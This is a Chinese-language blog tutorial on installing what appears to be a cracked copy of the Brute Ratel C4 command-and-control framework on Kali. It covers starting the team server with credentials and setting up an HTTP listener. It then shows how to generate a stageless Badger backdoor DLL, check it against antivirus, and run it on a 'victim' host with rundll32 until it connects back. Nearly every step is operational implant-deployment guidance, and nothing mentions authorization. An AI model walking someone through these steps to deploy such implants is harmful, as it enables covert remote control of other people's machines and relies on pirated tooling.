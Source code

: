 ```yaml
---
date: 2024-08-17 12:00:00
---
```


# 远控BRC4安装与简单上线


Brute Ratel C4是一款类似于Cobalt Strike的商业红队武器框架，每年License收费为3000美元，客户需要提供企业电子邮件地址并在颁发许可证之前进行验证，首个版本Brute Ratel C4 v0.2于2021年2月9日发布，它是由Mandiant和CrowdStrike的前红队队员Chetan Nayak创建的，该工具独特之处在于它专门设计防止端点检测和响应(EDR)和防病毒(AV)软件的检测，是一款新型的红队商业对抗性攻击模拟武器。

与Cobalt Strike的Beacon后门类似，Brute Ratel C4允许红队在远程终端主机上部署Badger后门程序，Badger连接回攻击者的命令和控制服务器，接收服务器端的命令执行相关的恶意行为。

[BRC4官网](https://bruteratel.com/)

![CleanShot 2024-08-17 at 00.22.18@2x.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/picCleanShot%202024-08-17%20at%2000.22.18@2x.png)


在kali中进行安装。首先对压缩包进行解压。

```bash
kali :: ~/Desktop/BRC4 » unzip BRC4.zip
```

得到如下文件：

![CleanShot 2024-08-17 at 00.29.54@2x.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/picCleanShot%202024-08-17%20at%2000.29.54@2x.png)

给予`brute-ratel-linx64_crack` 和 `lib64/commander` 执行权限

```bash
kali :: ~/Desktop/BRC4 » chmod +x x brute-ratel-linx64_crack                                   1 ↵
kali :: ~/Desktop/BRC4 » chmod +x lib64/commander                                            130 ↵
```

启动服务端，其中用户名为`hack`，密码为`p@ssw0d`，端口为`7788`，可以自行调整。

```bash
kali :: ~/Desktop/BRC4 » ../brute-ratel-linx64_crack -ratel -a hack -p p@ssw0d -h 127.0.0.1:7788 -sc
 cert.pem -sk key.pem
```

![CleanShot 2024-08-17 at 00.32.05@2x.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/picCleanShot%202024-08-17%20at%2000.32.05@2x.png)

接下来打开图形界面，首先赋予执行权限

```bash
kali :: ~/Desktop/BRC4 » chmod +x Rungui.sh
```

启动图形界面

```bash
kali :: ~/Desktop/BRC4 » ./Rungui.sh                                                    130 ↵
```

启动了图形界面后，接下来输入前面设定好的用户名和密码，点击猴子就可以成功登录。

![image-20240817003911885](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817003911885.png)

![image-20240817004013352](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817004013352.png)

进入客户端之后，点击`C4 Profiler`，然后点击`Add Http Listener`，这里和CS的步骤一样，需要先创建并配置一个监听器。

![image-20240817004225691](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817004225691.png)

接下来配置监听器，配置的内容为：
1. `Listener name`：监听器的名称，自定义。
2. `Listener bind host`：设置监听地址，当前选择主机的 IP即可。
3. `Rotational hosts`：重定向地址，当前点击右侧same按钮选择和监听器一样的地址。
4. `Port`：端口自定义
5. `Useragent`：默认即可。UA头
6. `URI(S)`：瞎写就可以，随便。
7. `OS`：默认
8. `SSL`：选择`No`，如果选择`Yes`，可能会导致无法上线。
9. `Sleep mask`：默认
10. `Sleep`,`Jitter`：类似CS的延时时间，建议调低。
11. `Create random set of authentication keys`,`Die if C2 is inaccessible?(Initialization only)`：勾选，马子如果不上线，不会一直请求。

![image-20240817004958076](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817004958076.png)

![image-20240817005241617](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817005241617.png)

配置完成后，点击`Save`保存，即可创建一个监听器。

右键点击该监听器，选择`Stageless`，选择`x64 Arch (Default)`，选择`dll`，这里是根据前面创建监听器时设置的架构来选择的。即可生成对应架构的马。

![image-20240817005459015](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817005459015.png)

![image-20240817005623775](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817005623775.png)

对生成的DLL随手查杀一下

![image.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/20240817010536.png)

将这个DLL放到受害者的主机上，为了方便测试，直接在cmd终端执行命令：

```powershell
rundll32 badger_x64.dll,main
```

可以看到，成功上线了。

![image.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/20240817011006.png)

更多后续使用方法再玩玩后分享。

